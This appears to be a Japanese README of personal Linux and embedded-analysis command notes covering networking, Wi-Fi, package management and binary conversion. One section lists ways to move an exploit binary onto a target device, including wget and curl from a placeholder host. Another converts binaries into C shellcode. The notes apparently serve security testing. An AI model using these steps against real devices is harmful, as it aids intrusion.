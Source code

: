 ## Linuxソースコード
<details>
<summary>Linuxコマンド</summary>

https://qiita.com/Nao1215/items/770429ada9fb463ae2ef

Ubuntu環境<br>
https://blog.amedama.jp/entry/ubuntu-fetch-cmd-src

</details>

<details>
<summary>Linuxカーネル</summary>

ダウンロード<br>
https://www.atmarkit.co.jp/ait/articles/1703/01/news171.html

ブラウザ<br>
https://code.woboq.org/linux/linux/ <br>
↑定義元とか追えて便利

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/

</details>

## GLIBC
<details>
<summary>ブラウザ</summary>

手順①：以下サイトにアクセスし、任意のGLIBCバージョンを選択する<br>
https://sourceware.org/git/?p=glibc.git;a=tags <br>

![image](https://user-images.githubusercontent.com/82632174/188454097-62349095-f2b9-49ec-aa7a-ef3c725492fa.png)


手順②：「tree」を押すとディレクトリ一覧が表示される<br>
![image](https://user-images.githubusercontent.com/82632174/188454130-04c6e402-0ae3-4b67-8cd0-0cfc01cac055.png)

	
手順③：任意のフォルダを開き、該当のソースコードを表示する<br>
![image](https://user-images.githubusercontent.com/82632174/188454152-e31f3803-b50e-42ad-a214-2a2aa6100fdb.png)
	
</details>
	
## ネットワーク

<details>
<summary>デフォルトゲートウェイの変更</summary>

手順⓪：既存ルールの確認

```route -n```<br>
![image](https://user-images.githubusercontent.com/82632174/188447642-c5305410-e13a-49cb-97db-751ce9c3e92e.png)<br>
※多分一番上のゲートウェイが優先ゲートウェイ
	
手順①：デフォルトゲートウェイの削除<br>
`route delete default`
	
手順②：デフォルトゲートウェイの追加<br>
`route add default gw [GWのIPアドレス]`
		
https://centos.bungu-do.jp/archives/11
	
</details>

<details>
<summary>攻撃対象ディレクトリにバイナリを転送する</summary>

①wget exmample.com/exploit

![image](https://user-images.githubusercontent.com/82632174/188448560-c6f94713-be85-4ef8-907d-bceb150f9168.png) <br>
※busyboxにも入っているため使用できるケースが多そう(17M Accordの場合)

②curl -o exmample.com/exploit
	
③adb push [exploitバイナリ] [ターゲット端末の任意パス]
	
④scp [exploitバイナリ] username@remote.example.com:/remote/directory <br>
※ターゲット端末上でsshサーバ(sshd)が有効な場合
	
⑤scp username@remote.example.com:/remote/directory/[exploitバイナリ] /local/directory
	
⑥ftp
	
⑦ブラウザ経由でダウンロード
	
⑧Exploitコードの入ったUSBメモリをターゲットに接続し、シェルからアクセス
	
</details>

<details>
<summary>USBディスクリプタを確認</summary>

`lsusb -s [バス番号]:[デバイス番号] -v`<br>
![image](https://user-images.githubusercontent.com/82632174/188449765-391f6628-f370-465f-ba00-34358ed94cc9.png)

	
</details>

<details>
<summary>hostapdの起動</summary>

`hostapd -B [confファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450168-4df8af7c-34b5-49e5-bf4d-b5690d8fee66.png)

※-B: バックグラウンド実行
	
</details>

<details>
<summary>wpa_supplicantの起動</summary>

`wpa_supplicant -i[NIC] -c[configファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450438-cfc58f2e-5bbf-42c2-b930-a6860ac2269e.png)


https://www.atmarkit.co.jp/ait/articles/1601/22/news026.html

※-dオプションをつけるとデバッグ情報を表示できる)
	
</details>

<details>
<summary>コマンドラインでのWi-Fi接続設定</summary>

手順①：/etc/wpa_supplicant/wpa-supplicant.confのssidとpskを接続したAPのものに設定する
![image](https://user-images.githubusercontent.com/82632174/188451174-68f7a8a4-dd94-4c9c-b27f-19b4e198b9f4.png)


手順②：機器をリブートする

https://qiita.com/mym/items/468d2cdb30d756b6df24

</details>

<details>
<summary>dhcpcdの起動</summary>

`dhcpcd`<br>
![image](https://user-images.githubusercontent.com/82632174/188451707-95007776-cf1b-4b5a-95c7-ddffcb2a3404.png)

※wpa_supplicantを起動し、APに接続した状態でdhcpcdを起動するとDHCPリクエストを送信しIPが割り当てられる
	
</details>

<details>
<summary>DNS参照先の確認</summary>

Windowsの場合：<br>
`ipconfig /all`<br>
![image](https://user-images.githubusercontent.com/82632174/188452038-596a1eb3-4cfe-4372-ba8c-4b2927c68811.png)

Linuxの場合：<br>
①/etc/resolv.confの中身<br>
②digのレスポンスの「SERVER:」で表示されるIPアドレス<br>
![image](https://user-images.githubusercontent.com/82632174/188452249-d5ddff83-af2f-4000-a1f2-0223c730eb90.png)

Digコマンドレスポンスの見方:
https://qiita.com/hypermkt/items/610b5042d290348a9dfa
	
</details>

## アプリインストール

<details>
<summary>apt アンインストール</summary>

パッケージのみをアンインストール<br>
`sudo apt remove [パッケージ名]`<br>

依存関係のあるパッケージごとアンインストール<br>
`sudo apt --purge remove [パッケージ名]`
	
</details>

<details>
<summary>インストール済みパッケージ一覧を表示</summary>

`sudo dpkg -l`<br>

</details>

<details>
<summary>RPMパッケージインストール</summary>

`rpm -ivh [.rpmファイル]`<br>

https://atmarkit.itmedia.co.jp/flinux/rensai/linuxtips/049instrpm.html#:~:text=RPM%E3%83%91%E3%83%83%E3%82%B1%E3%83%BC%E3%82%B8%E3%82%92%E3%82%A4%E3%83%B3%E3%82%B9%E3%83%88%E3%83%BC%E3%83%AB%E3%81%99%E3%82%8B,%E3%82%92%E7%9F%A5%E3%82%8B%E3%81%93%E3%81%A8%E3%81%8C%E3%81%A7%E3%81%8D%E3%82%8B%E3%80%82

</details>

<details>
<summary>RPMパッケージインストール</summary>

`apt install [.debファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188617673-c73f8d80-dedf-4bb8-b374-7333324b020f.png)

</details>

## ファイル操作

<details>
<summary>複数の圧縮ファイルを一括展開</summary>

`for f in *.zip; do unzip -d "${f%*.zip}" "$f"; done`<br>
※zipの部分をapkに変えるとapkの一括展開も可能

https://cocoinit23.com/unzip-each-directory/

</details>

## バイナリ操作

<details>
<summary>バイナリをシェルコード化(C言語用)</summary>

バイナリデータの.textセクション情報表示(arm向けバイナリの場合)<br>
`arm-none-eabi-objdump -m arm -s [バイナリファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188619081-281c98fc-be1c-4d24-978f-6425f9c0c8a8.png) <br>
※.textセクションのHexデータがプログラムの本体(シェルコード)

Cコード向けシェルコードに変換<br>
`perl -ple 's/(\w{2})\s?/\\x\1/g' <<<".textセクションのHex値(黄色枠)"`
	
</details>

<details>
<summary>バイナリデータを16進ダンプ</summary>

`od -tx1z -Ax [バイナリファイル]`<br>

https://qiita.com/abechi_17/items/999a6d7a370b58bb83be

</details>

<details>
<summary>バイナリデータの切り出し</summary>

`dd if=[入力ファイル] of=[出力ファイル] bs=[ブロックサイズ] skip=[オフセット] count=[サイズ] status=progress`<br>
![image](https://user-images.githubusercontent.com/82632174/188620247-d7eca688-9aa7-45bd-b2ee-f4c7866403da.png) <br>
※切り出すサイズはbs × countのサイズになる

※上記画像は以下のELFファイルを切り出す場合の例<br>
![image](https://user-images.githubusercontent.com/82632174/188620550-694826f5-273f-4d92-a3ce-da499b8248cd.png)

</details>

<details>
<summary>バイナリ⇔Sレコード変換</summary>

### バイナリをSレコードに変換

`objcopy --adjust-vma=[開始アドレス] -I binary -O srec [バイナリファイル] [Sレコードファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188621189-ab2b2220-fc51-4f2e-9018-bf3404cefeff.png) <br>
※geditでファイルの中身を確認し、アドレスが希望のものになっているか確認する<br>

![image](https://user-images.githubusercontent.com/82632174/188621442-8977d5f8-bb8f-4376-bf32-7bbd8ecf99c9.png) <br>
※アドレスが0x80000000から始まっていることがわかる

### Sレコードをバイナリに変換
`objcopy -I srec -O binary infile outfile`<br>

※上記コマンドを実行した際、Sレコード中にあるアドレスデータとして、例えば0x00001000--0x00002000の部分と、0x80000000--8000ffffの部分があるような場合、
0x00002000~0x80000000の部分は0でパディングした形式のバイナリファイルが作成される。
つまり、実際には意味のないデータを多く含んだ巨大なファイルが作成される場合がある。

逆アセンブラ(IDA proやGhidra)はSレコード形式のデータに対応しているため、基本的にはSレコードをバイナリにする必要はなく、そのまま解析した方が良いかも。
(stringsとかでどんな文字データが含まれるか見たい場合はバイナリに変換する必要があるが、
Sレコード状態で逆アセンブラに読ませた後で文字列データの一覧表示でも同様のことができる)

<details>
<summary>参考：SレコードとIntel Hexとは</summary>
http://www.pastelmagic.com/tips/hexform/hexform.html <br>
http://hdmr.org/d/?e=4009 <br>
</details>

http://cocolog-mu.cocolog-nifty.com/tips/objcopy.html <br>
https://linuxjm.osdn.jp/html/GNU_binutils/man1/objcopy.1.html

</details>

